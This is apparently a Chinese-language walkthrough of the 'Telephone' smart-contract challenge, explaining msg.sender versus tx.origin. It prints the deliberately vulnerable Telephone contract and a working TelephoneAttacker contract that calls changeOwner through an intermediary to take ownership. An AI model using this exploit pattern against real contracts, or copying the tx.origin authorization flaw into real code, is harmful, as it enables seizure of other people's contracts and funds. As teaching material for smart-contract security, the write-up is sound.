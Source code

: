 這關卡簡單但很有教育意義，主要是要我們理解 `msg.sender` 和 `tx.origin` 的區別。

### 題目

在這個關卡中，我們的目標是取得 `Telephone` 合約的所有權。
這個合約的 `changeOwner` 函數中有一個條件限制，只有在 `tx.origin` 不等於 `msg.sender` 的情況下，才能更改合約的所有者。這裡的 `tx.origin` 是最初發送交易的外部帳戶地址，而 `msg.sender` 則是直接調用合約的地址，可以是外部帳戶或其他合約。

### 合約

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

這個合約的邏輯很簡單，在 `changeOwner` 函數中，只有當 `tx.origin` 不等於 `msg.sender` 時，才能更改所有者。因此，如果你直接從外部帳戶調用 `changeOwner`，這個條件是不會通過的。但是，如果我們通過一個合約來調用 `changeOwner`，那麼 `msg.sender` 就會是那個合約的地址，而 `tx.origin` 還是最初發起交易的外部帳戶地址，這樣就能通過條件檢查。

### Attack

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttacker {

    address public challengeInstance;

    constructor(address _challengeInstance) {
        challengeInstance = _challengeInstance;
    }

    function attack() external {
        Telephone(challengeInstance).changeOwner(msg.sender);
    }
}
```

我們只需要讓 `TelephoneAttacker` 合約來呼叫 `Telephone` 合約的 `changeOwner` 函數。由於 `msg.sender` 在這個過程中會變成 `TelephoneAttacker` 合約的地址，而 `tx.origin` 是最初的外部帳戶地址，因此可以成功通過 `tx.origin != msg.sender` 的條件檢查，並將 `Telephone` 合約的所有權轉移到我們的地址。

